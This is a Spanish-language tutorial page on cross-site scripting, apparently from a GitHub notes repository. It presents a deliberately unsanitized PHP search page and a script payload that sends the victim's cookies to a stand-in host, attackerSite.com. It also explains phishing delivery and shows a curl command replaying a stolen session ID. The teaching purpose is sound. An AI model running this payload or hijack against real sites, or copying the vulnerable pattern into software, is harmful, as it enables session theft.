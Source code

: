 [Volver al inicio](../Readme.md)
# XSS (Cross-Site Scripting)
## Introducción.
El ataque XSS consiste en inyectar codigo Javascript malicioso en un sitio web vulnerable, de forma que al ser cargado por un usuario víctima, se ejecute en su navegador dicho código malicioso, con el objetivo de extraer información de la víctima, como por ejemplo, la cookie de sessión. Existen básicamente tres tipos de ataques (sin tener en cuenta los ataques XSS ciegos):
## Tipos de XSS
### XSS Reflejados
Este tipo de ataque se aprovecha de una deficiente o nula sanitización de los parametros de entrada, procedentes por ejemplo, de un formulario HTML del sitio web. Imaginemos un sitio web que tiene el siguiente código HTML para buscar un producto:
```html
<!DOCTYPE html>
<html>
<head>
    <title>Web XSS</title>
</head>
<body>
    <h2>Busca un producto</h2>
    <form action="xss1.php" method="GET">
        <label for="id_producto">Producto (ID):</label>
        <input type="text" id="id_producto" name="id_producto" required>
        <button type="submit">Enviar</button>
    </form>
</body>
</html>
 ```

 Y el código PHP del lado del servidor que recibe los datos del usuario:
 ```php
 <!DOCTYPE html>
<html>
<head>
    <title>Lector XSS</title>
</head>
<body>

<?php
// Crear conexión
$conn = new mysqli($servername, $username, $password, $database);

// Verificar la conexión
if ($conn->connect_error) {
    die("Error de conexión: " . $conn->connect_error);
}

// Verificar si se proporcionó el parámetro "id_producto" en la URL
if(isset($_GET['id_producto'])) {
    
    /* Aquí realizaría la búsqueda en la base de datos*/

    if ($result->num_rows > 0) {
        // El producto existe en la base de datos
        echo "Realiza alguna acción";
    } else {
        // El producto NO existe en la base de datos
        echo "El producto con el ID " + $_GET['id_producto'] + " no existe en la base de datos.";
    }
} else {
    // Si el parámetro "id_producto" no se proporcionó en la URL
    echo "Debe proporcionar un parámetro 'id_producto' en la URL.";
}

// Cerrar conexión
$conn->close();
?>

</body>
</html>
```

 En el código PHP (que no está sanitizado), observamos que, en caso de que no exista el producto, muestra un mensaje al cliente en el que añade el id del producto buscado. En este caso, si un atacante integra un script malicioso en el campo de búsqueda del producto, dicho script se verá **REFLEJADO** en la respuesta HTML que se envía al cliente y será ejecutado en su navegador.

 Imagina ahora que el script que envía el atacante es el siguiente:

 ```html
 <script>
    var cookies = document.cookie;

    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'https://attackerSite.com/store_cookies.php', true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('cookies=' + encodeURIComponent(cookies));
</script>
 ```
El atacante estará enviando la cookie del usuario de ese sitio web a un sitio de su propiedad, con la intención de almacenar cada cookie de sesión.

!!! ACLARACIÓN:
Si un atacante realiza estas pruebas sobre un sitio web con una vulnerabilidad XSS reflejada, hay que entender que la respuesta al ataque la recibe él mismo, es decir, enviaría su propia cokie. Para poder conseguir la cookie de la víctima, el atacante guarda la respuesta del servidor **que contiene el payload (script XSS) inyectado** y mediante ataques dirigidos de PHISHING, enviará enlaces a las víctimas potenciales para que ejecuten la respuesta envenenada del servidor, con lo que conseguirá que la víctima envíe su propia cookie al sitio del atacante.

Posteriormente, el atacante, previo estudio del funcionamiento del sitio web que pretende atacar y conociendo las peticiones que utiliza el sitio web, puede intentar acciones maliciosas utilizando las cookies robadas:

```
curl -X GET \
  -H "Cookie: PHPSESSID=SESSION_ID_ROBADA" \
  https://example.com/protected-page.php

```

### XSS almacenados
### DOM XSS
## Bibliografía